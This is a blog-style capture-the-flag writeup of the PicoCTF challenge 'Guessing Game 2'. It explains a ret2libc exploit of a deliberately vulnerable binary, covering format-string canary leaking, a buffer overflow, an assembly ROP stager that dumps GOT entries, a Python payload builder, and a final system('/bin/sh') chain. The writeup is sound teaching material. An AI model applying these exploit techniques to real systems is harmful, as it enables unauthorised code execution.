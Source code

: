 ```yaml
---
layout: post
title: "PicoCTF: Guessing Game 2 - Writeup"
date:   2022-03-12 15:46:00 +0000
categories: ctf binary-exploitation
---
```


# Introduction

This challenge is pretty straightforward and provides a great introduction to the ret2libc method of exploitation.

# Gaining an understanding of the program

The program begins by asking the user to guess a *random* number based on the remainder of the address of `rand` as seen in the code snippet below. When guessed correctly, the program asks for a name and proceeds by printing it to the screen.

```c
#define BUFSIZE 512

long get_random() {
    return rand;
}

int do_stuff() {
    long ans = (get_random() % 4096) + 1;	
    printf("What number would you like to guess?\n");
    char guess[BUFSIZE];
    fgets(guess, BUFSIZE, stdin);
    ...
}

void win() {
    char winner[BUFSIZE];
    printf("New winner!\nName? ");
    gets(winner);
    printf("Congrats: ");
    printf(winner);
    printf("\n\n");
}
```

#### Bug hunting

The program contains two critical vulnerabilities, a buffer overflow abetted by `gets` and a format string vulnerability. Either one of these vulnerabilities could result in code execution, however, running `checksec` on the binary yielded security mitigations employed. 

```bash
➜  Guessing Game 2 checksec vuln
[*] 'Guessing Game 2/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

As you can see, the binary is hardened with [RELRO](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro) preventing us from leveraging the format string vulnerability to overwrite the Global Offset Table ([GOT](https://en.wikipedia.org/wiki/Global_Offset_Table)). [DEP](https://en.wikipedia.org/wiki/Executable_space_protection), meaning that we cannot use the buffer overflow vulnerability to jump to the stack. Even if the stack was executable we would still be unable to achieve code execution due to the presence of a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Random_canaries). 

To successfully exploit this binary, we need to leverage the format string vulnerability to leak the stack cookie and use it in the buffer-overflow vulnerability to allow code execution via a ROP chain. First things first, we need to *guess* the *random* number.

# Bruteforcing the random number {#brute-forcing}

`(get_random() % 4096) + 1` gives the solutions a range from -4095 to +4097 a total range of 8192 solutions however we can narrow this down. Firstly, as the function address is coerced to a signed 32-bit integer we know that this integer will be negative as libc is usually based at a high address. Secondly, the addresses of the libc functions always seem to be 16 byte aligned meaning that they go up in increments of 16, massively reducing the range to 256 possible values.

```python
solutions = range(1, -4095, -16)
```

# Leaking the stack canary {#leaking-stack-canary}

Using gdb([gef](https://gef.readthedocs.io/en/master/)) I broke at main, running the gef canary command to find the current stack canary. I used python to generate a format string based on `"%x " * (512 // 3)` and sent it to the program. Counting the distance from the beginning of the stack to the canary gave me an offset of 135. Using offset 135, we can use the format string `"%135$x"` to reliably leak the stack canary.

```bash
gef➤  canary
[+] The canary of process 78855 is at 0xffffd30b, value is 0x88397800
```

```bash
Congrats: 200 f7fa2600 804877d 1 fffffad1 fffffad1 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 f7dd0078 f2f70100 80489fc 8049fbc ffffd098 804888c 0 0 3e8 1 ffffd0b0 f7fa2000 0 f7d9b4ca ffffd31b ffffd174 f7fa2000 f7d9b4ca 1 ffffd174 ffffd17c ffffd0d0 f7fa2000 80487ff 1 ffffd174 f7fa2000 0 ffffd17c 0 eb338acc a7fbe6dc 0 0 0 ffffd17c 0
```

# Leaking libc through a ROP chain

Armed with the ability to leak the stack canary, we can now focus on getting our shell. I tried to avoid having to leak libc instead, making a syscall to `execve` with a ROP chain but there were not enough useful gadgets. Though using `ROPgadget`, I found some helpful gadgets which allowed me to make a ROP chain to dump GOT functions and write to data, I’ll be calling this the stager for brevity.

```as
# Addresses obtained using IDA

.equ DATA_OFFSET, 0x804A000
.equ GOT_IO_GETS_OFFSET, 0x8049FCC
.equ GOT_IO_PRINTF_OFFSET, 0x8049FC8
.equ GOT_IO_FGETS_OFFSET, 0x8049FD0
.equ GOT_GETEGID_OFFSET, 0x8049FD8

.macro print fmt, addr
    .long 0x08048470    # _printf@plt
    .long 0x0804844e    # add esp, 8 ; pop ebx ; ret
    .long \fmt
    .long \addr
    .long 0x0           # padding
.endm

.macro gets buffer
    .long 0x8048480     # gets@plt
    .long 0x804844e     # add esp, 8; pop ebx; ret
    .long \buffer
    .quad 0x0           # padding
.endm

.global _start

_start:
    gets DATA_OFFSET
    print DATA_OFFSET, GOT_IO_GETS_OFFSET
    print DATA_OFFSET, GOT_IO_PRINTF_OFFSET
    print DATA_OFFSET, GOT_IO_FGETS_OFFSET
    print DATA_OFFSET, GOT_GETEGID_OFFSET
    gets DATA_OFFSET
    .long 0x80487FF     # main (restart app)
```

The stager works by waiting for input from stdin and writing it to a writable section in the binary. We are able to use a hardcoded address as the binary is not a PIE. After input is received the stager uses the data written as the format string argument to `printf` and proceeds to use this format string to dump GOT entries. The stager waits for one last input to write to the writable section and then restarts the app by returning to `main`.

#### Getting the stager running

We now need to overwrite the return address to an address we control. Using gef's `pattern create` command to create a string and pass it to the application we'll be able to obtain the offset to the return address. Using the information gained I was able to make this python function.

```python
def create_rop_chain(stack_cookie: int, stager: BinaryIO) -> bytes:
    exploit =  b'A' * 512           # Padding
    exploit += p32(stack_cookie)    # Stack cookie
    exploit += b'A' * 12            # Offset to EIP
    exploit += stager.read()        # EIP
    return exploit
```

#### Finding the libc version on the server

Now that we are able to run our stager we'll pass it `%.4s` as the first argument for the format string and then recieve the GOT entry for `gets`. The stager will send us a 4 byte string containing the address which can be converted to something useable using `int.from_bytes` in python. Now that we have the addresses we can use a [libc database](https://libc.blukat.me/) to find the libc version running on the server so that we can get the offsets of functions in that libc binary. Using this I found the libc version to be `libc6-i386_2.27-3ubuntu1.4_amd64.so`. Thankfully, the libc database search provides us with offsets to useful functions. For the final input to the stager we can send it `/bin/sh` to write to the data section for us to pass it to system and get a shell.

![libc database search](/assets/images/libc_database_search.png)

# Popping a shell

Subtracting the GOT entry to `gets` from the offset of `gets` in the libc binary we can find the base address for libc. Using this we can contruct the final ROP chain and call system with the binary path being a pointer to the data section with the `/bin/sh` string we just wrote using the stager.

```python
exploit =  p32(libc + LIBC_SYSTEM_OFFSET)   # system
exploit += p32(libc + LIBC_EXIT_OFFSET)     # exit when routine complete
exploit += p32(DATA_OFFSET)                 # /bin/sh
```

# The exploit

Here is the complete [source code](https://gist.github.com/aidnzz/5631bc65c38318fe74dd23e0390c9633). Using [pwntools](https://docs.pwntools.com/en/stable/) really simplifies exploit development and features some really good logging utilities.

<script id="asciicast-dKo2JK5qNYfD9ln8n8zp4gKvy" src="https://asciinema.org/a/dKo2JK5qNYfD9ln8n8zp4gKvy.js" async data-size="small"></script>
